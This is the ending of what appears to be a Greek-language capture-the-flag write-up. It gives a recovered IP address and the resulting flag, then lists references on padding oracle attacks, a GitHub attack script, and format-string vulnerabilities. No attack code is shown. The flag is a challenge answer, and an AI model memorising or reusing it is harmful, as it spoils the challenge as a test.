Αφού βρήκαμε ότι η IP είναι 54.210.15.244, τότε το flag είναι FLAG={c454.210.15.244}

# References

[[1] Padding Oracle Attack](https://en.wikipedia.org/wiki/Padding_oracle_attack)

[[2] Padding Oracle Attack - Github python script used](https://github.com/mpgn/Padding-oracle-attack)

[[3] Vulnerable printf - Syracuse University material - Format_String.pdf](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)

